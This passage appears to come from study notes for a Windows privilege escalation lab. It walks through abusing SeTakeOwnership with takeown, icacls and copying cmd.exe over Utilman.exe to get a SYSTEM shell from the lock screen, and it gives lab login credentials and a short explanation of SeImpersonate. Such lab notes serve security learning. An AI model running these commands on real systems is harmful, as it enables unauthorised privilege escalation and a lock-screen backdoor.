>> [!] Press help for extra shell commands
>> Microsoft Windows [Version 10.0.17763.1821]
>> (c) 2018 Microsoft Corporation. All rights reserved.
>>
>> C:\Windows\system32> whoami
>> nt authority\system
>> ``` 
> 
> # C. SeTakeOwnership
> The **SeTakeOwnership** privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges.
>
> Log in to the target machine via RDP using the following credentials:
>
> User: `THMTakeOwnership` Password: `TheWorldIsMine2022`
>
> Open and run command prompt as the administrator.
>
> We'll abuse `utilman.exe` to escalate privilege this time. **Utilman** is a built-in Windows application used to provide Ease of Access options during the lock screen. It is run with SYSTEM privileges, therefore we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like. We can take ownership and replace any file.
> ![Image of Utilman]([Isolated.pn](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Fwww.passfab.com%2Fimages%2Ftopics%2Falternative%2Fwindows-11%2Faccessibility.jpg%3Fw%3D804%26h%3D624&f=1&nofb=1&ipt=ae7c90cc9b01cc71929477d99216cede1bb0d53bfabe02fe35d2bf3859b35736&ipo=images) "Utilman")
>
> We will then replace utilman
>
> ### TARGET MACHINE:
>> ```
>> C:\Windows\system32>takeown /f C:\Windows\System32\Utilman.exe
>>
>> SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WPRIVESC2\THMTakeOwnership".
>>
>> C:\Windows\system32>icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
>> processed file: C:\Windows\System32\Utilman.exe
>> Successfully processed 1 files; Failed processing 0 files
>>
>> C:\Windows\system32>copy cmd.exe utilman.exe
>> Overwrite utilman.exe? (Yes/No/All): yes
>>         1 file(s) copied.
>> ``` 
>
> To trigger utilman, we will lock our screen from the start button.
>
> Finally, click the "Ease of Access" button, which runs `utilman.exe` with SYSTEM privileges. This will cause to pop a command line.
>
> Although this won't give us access to `C:\Users\Administrator\flag.txt`.
> 
> # D. Selmpersonate / SeAssignPrimaryToken
>
> These privileges allow a process to impersonate other users and act on their behalf.
>
> Impersonation usually consists of being able to spawn a process or thread under the security context of another user. You can understand impersonation by looking how FTP server works.
>
> As attackers, if we manage to take control of a process with SeImpersonate or SeAssignPrimaryToken privileges, we can impersonate any user connecting and authenticating to that process.


</details>

<details>
  <summary> 5. Abusing Vulnerable Software</summary>
  
</details>


